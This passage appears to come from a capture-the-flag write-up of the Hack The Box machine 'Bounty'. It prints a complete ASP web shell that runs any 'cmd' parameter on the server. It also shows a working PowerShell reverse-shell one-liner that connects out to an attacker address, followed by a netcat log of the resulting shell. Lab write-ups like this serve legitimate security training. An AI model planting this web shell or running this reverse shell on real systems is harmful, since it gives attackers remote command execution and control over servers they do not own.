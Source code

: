 ```xml
<input type="submit" value="Run">
</FORM>

<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>

<%Response.write("<!-"&"-") %>
```

Uploaded the file:

![Pasted image 20210524172515.png](../../zzz_res/attachments/Pasted_image_20210524172515.png)

Browsed the web shell:

![Pasted image 20210524172539.png](../../zzz_res/attachments/Pasted_image_20210524172539.png)

Obtained the reverse shell:

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.3',10099);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()"
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Bounty/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.93] 49157

PS C:\windows\system32\inetsrv> whoami
bounty\merlin
PS C:\windows\system32\inetsrv> hostname
bounty
```
